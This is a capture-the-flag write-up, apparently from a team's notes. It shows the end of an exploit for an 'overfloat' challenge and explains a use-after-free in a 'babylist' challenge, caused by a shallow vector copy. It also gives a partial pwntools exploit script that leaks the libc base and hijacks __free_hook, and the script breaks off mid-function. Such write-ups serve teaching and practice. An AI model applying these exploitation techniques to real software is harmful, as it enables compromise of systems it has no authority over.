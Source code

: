 ```python
b=tran.tran(base>>32)
c=tran.tran(libc.sym['system']&0xffffffff)
sd("{}".format(a))
sd("{}".format(b))
sd("{}".format(c))
sd("{}".format(b))
p.sendlineafter(": ","done")
p.sendline("cat home/overfloat/flag")
p.interactive()
```


# babylist
An little challenge about `vector` & `shallow copy`
the function of `copy` is vulnerable , It just copies the address of the vector.
So it may lead to `uaf`. 
```arm
else
{
v2 = get_idx();
v3 = (node *)operator new(0x88uLL);
init_the_chunk((__int64)v3);
list[i] = v3;
memcpy(list[i], list[v2], 0x88uLL);
v4 = std::operator<<<std::char_traits<char>>(&std::cout, "Enter name for new list:");
std::ostream::operator<<(v4, &std::endl<char,std::char_traits<char>>);
std::istream::getline((std::istream *)&std::cin, list[i]->name, 0x70LL);
v0 = std::operator<<<std::char_traits<char>>(&std::cout, "List has been duplicated!");
}
```
so we can pwn it by:
* uaf to leak the libc_base
* hijacking __free_hook

There is my exp:
```python
from pwn import *
def cmd(n):
p.sendlineafter("> ",str(n))
def add(name):
cmd(1)
p.sendlineafter("list:\n",str(name))
def num(idx,n):
cmd(2)
p.sendlineafter("list:\n",str(idx))
p.sendlineafter("add:\n",str(n))
def show(idx,index):
cmd(3)
p.sendlineafter("list:\n",str(idx))
p.sendlineafter("list:\n",str(index))
def cp(idx,name):
cmd(4)
p.sendlineafter("list:\n",str(idx))
p.sendlineafter("list:\n",str(name))
def free(idx):
cmd(5)
p.sendlineafter("list:\n",str(idx))
def cal(n):
if n>0:
return n
if n<0:
return 0x100000000+n
def recal(p1):
```

[1]: http://cenalulu.github.io/linux/about-denormalized-float-number/
[2]: https://www.h-schmidt.net/FloatConverter/IEEE754.html
[3]: https://github.com/R3t-team/R3t-team